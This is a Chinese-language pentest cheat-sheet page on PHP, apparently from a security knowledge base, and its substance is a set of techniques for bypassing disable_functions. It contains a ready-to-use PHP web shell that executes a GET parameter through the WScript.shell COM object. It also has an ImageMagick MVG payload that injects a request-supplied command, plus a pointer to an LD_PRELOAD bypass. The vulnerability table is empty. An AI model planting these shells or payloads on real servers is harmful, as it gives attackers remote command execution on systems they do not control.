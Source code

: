 ## 组件简介

php是最好的语言？

## 漏洞列表

| 漏洞名称 | 漏洞ID | 影响版本 | CVSS |
| -------- | ------ | -------- | ---- |
|          |        |          |      |

### disable_function绕过

1. window com组件

``` php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

2. 利用ImageMagick组件(phpinfo查看)漏洞绕过disable_function

ImageMagick(https://imagemagick.org)是一套功能强大、稳定而且开源的工具集和开发包，可以用来读、写和处理超过89种基本格式的图片文件

``` php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";
$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
    $command = 'id';
}
$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;
file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```

3. 利用环境变量LD_PRELOAD来绕过

通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD

## 组件指纹

1. 查看文件后缀
2. header头部
3. cookie:phpsession
